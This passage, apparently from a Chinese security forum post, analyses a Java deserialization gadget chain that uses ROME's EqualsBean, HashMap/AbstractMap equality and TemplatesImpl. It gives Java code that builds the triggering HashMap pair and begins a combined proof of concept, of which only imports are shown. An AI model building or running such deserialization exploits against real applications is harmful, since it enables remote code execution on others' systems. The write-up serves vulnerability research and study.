 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-d3b5264dfeee8125005d31c326d08dff05b495bb.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-26942ceabdda8e4e450bc46c0bc90b9b45a7a701.png)

在 HashMap 中，对象大于1时会转而调用父类 `java.util.AbstractMap#equals` （这一部分具体的逻辑代码我没有找到或者没有看懂

进而在 java.util.AbstractMap#equals 中我们找到了可以用来调用 EqualsBean 的地方

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-af8b47f63a245ea66d0c8fa1b9d0f1be41f25376.png)

我不过这里我们还需要使 EqualsBean.equals 的参数为 Templates，这里我们可以用 HashMap 进行操作

将两个 map 的 value 颠倒一下就可以了，也就是

```java
map1.put("aa",templates);
map1.put("bB",bean);
map2.put("aa",bean);
map2.put("bB",templates);
```

思考一下，其实也很简单

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c3d11daefdcdc86f7829fd6b902cddf1aa6a4ff2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c7c794e9fc46fbe1421dc3e3564d27d478e92d00.png)

不过这里放两张图还是更直观一些

最终构造出来的结果也就是（测试一下31，换了个bc：

```java
        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();
        EqualsBean bean = new EqualsBean(String.class,"");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("bb",templates);
        map1.put("cC",bean);
        map2.put("bb",bean);
        map2.put("cC",templates);
        HashMap map = new HashMap();
        map.put(map1,"");
        map.put(map2,"");
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-472be9a18b8516cb700688a5635e04745b4728d4.png)

最终的方法栈如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-11294d5c9ce425d8c2757ab597318c7d90bacf8b.png)

将 Y4? 的三段 POC 整合成了一段，如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
```